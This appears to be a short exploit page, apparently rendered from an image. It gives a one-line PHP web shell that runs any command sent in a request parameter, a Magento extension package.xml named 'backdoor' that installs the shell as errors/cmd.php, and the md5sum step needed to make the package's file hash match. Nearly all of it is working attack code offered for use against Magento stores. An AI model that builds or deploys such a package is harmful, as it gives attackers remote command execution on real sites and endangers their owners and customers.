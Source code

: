 
    <?php system($_REQUEST['cmd']); ?>



`package.xml`:



    <?xml version="1.0"?>
    <package>
    <name>backdoor</name>
    <version>1.3.3.7</version>
    <stability>devel</stability>
    <licence>backdoor</licence>
    <channel>community</channel>
    <extends/>
    <summary>Backdoor for magento</summary>
    <description>Backdoor for magento</description>
    <notes>backdoor</notes>
    <authors>
        <author>
            <name>jvoisin</name>
            <user>jvoisin</user>
            <email>julien.voisin@dustri.org</email>
        </author>
    </authors>
    <date>2015-08-17</date>
    <time>13:47:49</time>
    <contents>
        <target name="mage">
            <dir>
                <dir name="errors">
                    <file name="cmd.php" hash="c214a2fb80bab315fc328a5eff2892b5"/>
                </dir>
            </dir>
        </target>
    </contents>
    <compatible/>
    <dependencies>
        <required>
            <php>
                <min>5.2.0</min>
                <max>6.0.0</max>
            </php>
        </required>
    </dependencies>
    </package>



It is important that the hash is created correctly for the php file as
follows:



    root@kali# md5sum errors/cmd.php 
    c214a2fb80bab315fc328a5eff2892b5  errors/cmd.php
